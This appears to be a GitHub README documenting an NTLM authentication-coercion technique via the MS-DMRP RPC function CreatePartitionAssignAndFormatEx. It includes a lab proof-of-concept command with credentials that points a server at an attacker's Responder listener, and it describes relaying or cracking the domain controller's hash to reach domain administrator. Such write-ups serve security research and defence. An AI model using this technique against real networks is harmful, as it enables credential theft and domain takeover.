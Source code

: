 # MS-DMRP - Remote call to IVolumeClient3::CreatePartitionAssignAndFormatEx (opnum 7)

## Summary

+ **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

+ **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVolumeClient3::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/ca3fa60c-01f5-452e-a7d6-704d1f40bab6)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient3::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/ca3fa60c-01f5-452e-a7d6-704d1f40bab6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient3::CreatePartitionAssignAndFormatEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreatePartitionAssignAndFormatEx(
   [in] REGION_SPEC partitionSpec,
   [in] wchar_t letter,
   [in] hyper letterLastKnownState,
   [in] int cchAccessPath,
   [in, size_is(cchAccessPath)] wchar_t* AccessPath,
   [in] FILE_SYSTEM_INFO fsSpec,
   [in] boolean quickFormat,
   [in] DWORD dwFlags,
   [out] TASK_INFO* tinfo
 );
```

## References

+ Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

+ Documentation of function `IVolumeClient3::CreatePartitionAssignAndFormatEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/ca3fa60c-01f5-452e-a7d6-704d1f40bab6